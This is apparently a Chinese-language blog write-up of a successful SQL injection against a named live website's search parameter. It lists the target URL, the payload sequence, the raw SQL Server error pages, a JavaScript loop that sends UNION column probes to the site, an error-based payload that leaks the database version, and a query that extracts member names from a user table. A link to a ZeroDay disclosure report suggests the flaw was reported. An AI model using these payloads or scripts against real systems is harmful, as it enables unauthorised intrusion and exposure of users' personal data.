 ```yaml
---
title: SQL Injection wowisee Success
description: SQL Injection wowisee Success
last_update:
  date: "2025-08-21T08:00:00+08:00"
---
```


## 先備知識

- 目標: `https://www.wowisee.com/list2.asp?keyword=`，keyword 是注入點
- 網站架構: Microsoft-IIS/8.5 + ASP.NET
- Server 會回傳 SQL Error Message
- 回傳的編碼是 Big5
- 可使用 Burp Suite 把 Hex 複製下來，再用 [hextostring](https://www.hextostring.com/) 轉換

## 測試過程

- 使用 Burp Suite Repeater 發送 HTTP Request
- queryString 的 value 使用我熟悉的 JS 來生成

```js
const sp = new URLSearchParams();
sp.append("keyword", `'`);
console.log(sp.toString().split("keyword=")[1]);
```

1. `%27`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e14'</font>
<p>
  <font face="Arial" size="2"
    >遺漏字元字串 ' Order By 上刊日期 desc' 後面的引號。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

2. `%27--123`

成功查詢到，代表註解有成功

3. `%27+UNION+SELECT+NULL--123`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e14'</font>
<p>
  <font face="Arial" size="2"
    >使用 UNION、INTERSECT 或 EXCEPT
    運算子結合的所有查詢，其目標清單中的運算式數量必須相等。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

接下來應該就是瘋狂 UNION 直到欄位相同？

3. `%27+UNION+SELECT+NULL%2CNULL--123`

```js
for (let i = 2; i < 100; i++) {
  const nulls = Array(i).fill("NULL").toString();
  const sp = new URLSearchParams();
  sp.append("keyword", `' UNION SELECT ${nulls}--123`);
  fetch(`https://www.wowisee.com/list2.asp?${sp.toString()}`, {
    referrerPolicy: "origin",
    credentials: "omit",
  }).then((res) => console.log(i, res.status));
}
```

真奇怪，到 100 個 NULL 都是同樣的錯誤訊息，只好改成用 Error-Based SQLi 來嘗試

4. `%27%3BSELECT+%27hello%27+WHERE+1+%3D+%28SELECT+%40%40version%29--123`

```html
<font face="Arial" size="2"> <p>ADODB.Recordset</p></font>
<font face="Arial" size="2">錯誤 '800a0cb3'</font>
<p>
  <font face="Arial" size="2"
    >目前資料錄集 (Recordset) 不支援書籤。這可能成為提供者或所選資料指標類型
    (cursortype) 的限制。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行432</font>
</p>
```

5. `%27+AND+CONVERT%28int%2C%40%40version%29--123`

```
<font face="Arial" size=2>
<p>Microsoft OLE DB Provider for SQL Server</font> <font face="Arial" size=2>錯誤 '80040e14'</font>
<p>
<font face="Arial" size=2>在有預期條件的內容中指定的非布林類型運算式，接近 ')'。</font>
<p>
<font face="Arial" size=2>/app/Scripts/DataList.js</font><font face="Arial" size=2>, 行308</font>
```

所以 AND 後面要接一個 Boolean 運算

6. `%27+AND+1+%3D+CONVERT%28int%2C%40%40version%29--123`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e07'</font>
<p>
  <font face="Arial" size="2"
    >將 nvarchar 值 'Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3
    2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise
    Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
    ' 轉換成資料類型 int 時，轉換失敗。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

成功提取到 MSSQL 的版本資訊，真詳細

```
Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64)
	Sep  3 2014 04:11:34
	Copyright (c) 1988-2008 Microsoft Corporation
	Enterprise Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
```

7. 接下來請參考 [ZD-2025-01030](https://zeroday.hitcon.org/vulnerability/ZD-2025-01030)

## 學到的東西

1. 編碼轉換，可使用 [Hex to String Converter Online](https://www.hextostring.com/)
2. `SELECT TOP 10` 跟 `FOR XML PATH('')`

```js
const sp = new URLSearchParams();
sp.append(
  "keyword",
  `' AND 1 = CONVERT(int,(SELECT TOP 10 姓名 + '|' FROM 會員 FOR XML PATH('')))--123`,
);
console.log(sp.toString().split("keyword=")[1]);
```

3. 需要看 HTTP Response Hex 的時候，真的要用 Burp Suite 的 Repeater，超好用
